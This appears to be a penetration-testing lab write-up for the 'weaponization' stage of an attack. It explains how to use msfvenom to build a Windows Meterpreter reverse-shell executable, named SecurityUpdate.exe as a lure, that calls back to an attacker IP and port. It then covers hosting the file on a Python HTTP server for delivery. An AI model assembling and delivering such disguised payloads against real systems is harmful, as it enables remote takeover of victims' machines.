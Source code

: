 # Weaponization

## Objective:
Create a malicious payload and a delivery mechanism for the attack.

## Action:
1. Generate Malicious Payload with MSFVenom: 

    Use **MSFVenom**, a tool for creating payloads, to generate a **malicious executable** that executes a **Meterpreter shell** (Metasploit's remote control payload). 

![image](https://github.com/user-attachments/assets/fc6acd6d-1b8f-4dc9-8d76-ab57a5fc4574)

### Explanation of the Command:

  - `msfvenom` – A tool used to generate payloads (malicious code) for penetration testing.
  - `-p windows/meterpreter/reverse_tcp` – This specifies the payload type:
    - `windows/meterpreter/reverse_tcp` creates a **reverse shell**, meaning the victim's machine will connect back to the attacker's system.
  - `LHOST=10.19.19.134` – The attacker's IP address where the victim's machine will connect to.
  - `LPORT=4444` – The port on which the attacker's computer is listening for incoming connections.
  - `-f exe` – Specifies the output format of the payload as a **Windows executable** (`.exe`).
  - `-o SecurityUpdate.exe` – Saves the malicious executable file as `SecurityUpdate.exe`.

## The Output:

- The tool automatically targets **Windows**.
- **x86 (32-bit architecture)** is selected, as no specific architecture was defined.
- The payload is **354 bytes** in size, while the final executable is **73,802 bytes**.
- The malicious file is saved as `SecurityUpdate.exe`.

### What This Means:

When `SecurityUpdate.exe` is executed on a Windows system, it connects back to the attacker's IP (**10.19.19.134:4444**) and provides remote control through the **Meterpreter shell**.


### Verifying the Payload Type:
Use the `file` command to check the type of the generated file (`SecurityUpdate.exe`):

```
 file SecurityUpdate.exe
```
1. `PE32 executable` – This means it is a Portable Executable (PE) file, which is a common format for Windows programs.
2. `(GUI)` – The program is designed to run with a Graphical User Interface (GUI) rather than in the command line (CLI).
3. `Intel 80386` – This indicates the file is built for 32-bit (x86) architecture.
4. `for MS Windows` – The file is meant to run on Microsoft Windows.
5. `4 sections` – The executable has four sections inside it (such as code, data, resources, etc.), which is typical for compiled Windows programs.

This confirms that `SecurityUpdate.exe` is a **32-bit Windows executable** with a GUI. If run, it will execute the embedded Meterpreter payload.

2. Host the Payload Using a Python HTTP Server.
    Host the payload on a **Python HTTP server** running on port `8000`:

![image](https://github.com/user-attachments/assets/1c66b5c9-4f4c-4285-8f5a-d86b5a14c244)

### Command Explanation:

```
python3 -m http.server 8000
```

1. `python3` – Runs Python version 3.
2. `-m http.server` – Uses Python’s built-in web server module to start a temporary HTTP server.
3. `8000` – Specifies that the server should run on port 8000 (you can change this to any available port).

### Output of the Command:

  - `"Serving HTTP on 0.0.0.0 port 8000"` – The server is now running and accessible from any computer on the network.
  - `"http://0.0.0.0:8000/"` – You (or others on the network) can access it by typing http://your-ip:8000/ in a web browser.

### What This Means:

  - If you run this command in a folder, Python will share all the files in that folder over HTTP.
  - You can download files from this machine by visiting `http://your-ip:8000/` in a browser or using `wget` or `curl`.
  - Useful for quick file sharing or setting up a local web server for testing.
